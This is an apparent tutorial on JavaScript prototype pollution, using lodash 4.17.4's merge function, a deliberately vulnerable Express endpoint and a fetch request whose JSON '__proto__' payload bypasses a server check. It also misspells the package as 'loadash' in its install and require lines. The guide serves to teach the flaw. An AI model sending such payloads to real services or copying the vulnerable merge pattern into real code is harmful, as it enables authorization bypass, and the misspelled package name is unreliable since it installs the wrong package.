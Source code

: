 ```yaml
---
title: "Prototype Pollution"
tags: guides
---
```


# A brief overview on prototype pollution

## What is a prototype
Javascript is a prototypal language this means that all objects within it have a prototype that is shared between objects of the same type. The prototype contains methods and properties that are useful for all objects of that type. This prototype is accesible from objects via the `__proto__` property.

For example:
`Number.prototype` contains the method toFixed which converts the number to a fixed string. All numbers have this method
```javascript
(1).toFixed === (-10.5).toFixed // true
```

## Modifying prototypes
Because prototypes are shared if you modify the prototype of an object all objects of the same type will have the new prototype. 

For example if I wanted to add `isNumber = true` to all numbers I could use `Number.prototype` or the `__proto__` of any number
```javascript
Number.prototype.isNumber = true;
(1).isNumber // true
Infinity.isNumber // true
```
```javascript
(10).__proto__.isNumber = true;
(10).isNumber // true
(-0xffff).isNumber // true
"10".isNumber // undefined
```
Notice how as `"10"` is a different type (`String`) it has a different prototype so isNumber is undefined.

### Side note: root prototype
There is however a root prototype that is shared by most objects.
```javascript
// Note there is varying depths of prototypes to reach protypes
// This depends on how many classes a class extends
(1).__proto__.__proto__.foo = 'bar';
(5).foo; // 'bar'
({}).foo; // 'bar'
"example".foo; // 'bar'
```

## Prototype pollution
Prototype pollution is when a user's input is able to modify a prototype hence allowing them control other other parts of the code.

### JSON.parse
Javascript's default JSON parse is not vulnerable to prototype pollution, if the user input contains a `__proto__` property the reference to the actual prototype is replaced with a new object defined by the JSON. This is due to the way javascript works, if you completly overwrite the `__proto__` property you are replacing the reference to the prototype of the object a new object instead of inserting a property to the global type prototype.
```javascript
let obj = JSON.parse('{"__proto__":{"foo":"bar"}}');
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```
is the same as
```javascript
let obj = {};
obj.__proto__ = {'foo':'bar'};
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```

### Actual vulnerabilites
Because we cannot overwrite the `__proto__` with a new object it is normally code that copies from user input that is vulnerable to prototype pollution. There are several libraries that have been vulnerable, I am going to use lodash version 4.17.4 as an example.

Lodash has a [merge](https://lodash.com/docs/4.17.4#merge) function that copies all the properties from object to another object **recursively**.

The problem with the vulnerable version is when it _merges_ the objects it will insert objects into the recieving objects prototype if the other object has a `__proto__` property.

_The following code requires lodash to be installed (I recommend using nodejs, `npm i loadash@4.17.4`)_
```javascript
const _ = require('loadash'); // import lodash

// Create a object with __proto__ property that isn't actually a prototype
let obj = {};
obj.__proto__ = {'foo':'bar'};

let dest = {'bar':'foo'};
// Perform the merge
_.merge(dest, obj);

// When it performs the copy it finds the __proto__ property in obj (and is an object)
// it checks to see if __proto__ exists in dest
// as __proto__ refers to the global prototype object it copies the properties from
// obj.__proto__ to dest.__proto__ (into the global prototype)
// hence now Object.prototype.foo = 'bar'

// Now a pollution has been performed we can see the effects
console.log(dest.foo); // 'bar'
let newObj = {'what': 'a new object'};
console.log(newObj.foo); // 'bar'

// This is especially dangerous if the attacker can add a function, 
// or a property that gets evaluated unsafely later
```

#### Example
Example of passing a check on a vulnerable express web server
```javascript
const express = require('express');
const _ = require('loadash');

const app = express();

app.use(express.json()); // Automatically JSON.parse uploaded data
app.post('/api/foo', (req, res) => {
  let data = _.merge({}, req.body); // Merge object with user content
  let checks = {};
  if (data.type === 'apple') { // If data.type is apple
    checks.isApple = true; // Set check to passed
  }
  // If check passed return a 200, else return a 400
  if (checks.isApple === true) return res.sendStatus(200);
  res.sendStatus(400);
});

app.listen(8000);
```
I am going to use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch) to send requests from the server but anything that can send HTTP post requests would work.

Normal user:
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'apple'}),
});
console.log(res.status); // 200
```
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'orange'}),
});
console.log(res.status); // 400
```

Using prototype pollution:
```javascript
// Notes:
// I don't use JSON.stringify here as it would ignore any __proto__ properties
// Make sure what you send (body) is actually valid JSON otherwise server code won't be able to parse it
// Make sure you set the Header 'Content-Type' to 'application/json' otherwise the express json middleware won't parse the JSON
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: '{"type":"orange","__proto__":{"isApple":true}}',
});
console.log(res.status); // 200
```
